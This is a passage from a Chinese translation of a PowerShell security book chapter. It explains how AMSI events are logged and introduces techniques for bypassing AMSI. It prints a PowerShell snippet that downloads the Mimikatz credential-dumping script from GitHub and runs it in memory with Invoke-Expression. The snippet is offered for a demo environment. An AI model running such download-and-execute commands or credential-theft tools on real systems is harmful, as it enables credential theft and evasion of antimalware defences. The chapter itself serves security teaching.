 ![图 12.5 – 如果使用默认的 Defender 引擎，AMSI 相关事件会出现在 Defender/Operational 事件日志中](img/B16679_12_005.jpg)

图 12.5 – 如果使用默认的 Defender 引擎，AMSI 相关事件会出现在 Defender/Operational 事件日志中。

现在你已经了解了 AMSI 的工作原理、为什么它是必要的以及它如何帮助防御，我们接下来将深入探讨对手是如何尝试绕过 AMSI 的。

# 绕过 AMSI

AMSI 在防止恶意代码执行方面对防御者非常有帮助。但如果攻击者没有尝试找到绕过 AMSI 的方法，他们就不再是攻击者了。在这一部分，我们将探讨一些常见的技术。

我遇到的大多数绕过方法都以某种方式尝试篡改**amsi.dll**。大多数情况下，目标是通过替换**amsi.dll**为自定义版本，或者完全避免使用**amsi.dll**，从而使恶意代码看起来干净。

通常，当人们发现新的绕过方法并写博客时，它会在发布后不久被修复并检测到。

Joseph Bialek 最初编写了**Invoke-Mimikatz.ps1**脚本，以通过 PowerShell 使所有 Mimikatz 功能可用。

**Invoke-Mimikatz**是**nishang**模块的一部分，可以从 GitHub 下载：[`raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1)。

为了展示这里的示例，我创建了一个小模块，加载了**Invoke-Mimikatz.ps1**脚本。如果你想在你的演示环境中复现它，只需复制并粘贴原始代码：

```
New-Module -Name Invoke-MimikatzModule -ScriptBlock {
    Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
    Export-ModuleMember -function Invoke-Mimikatz
} | Import-Module
```

你也可以在本章的 GitHub 仓库中找到这个小代码片段：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1)。
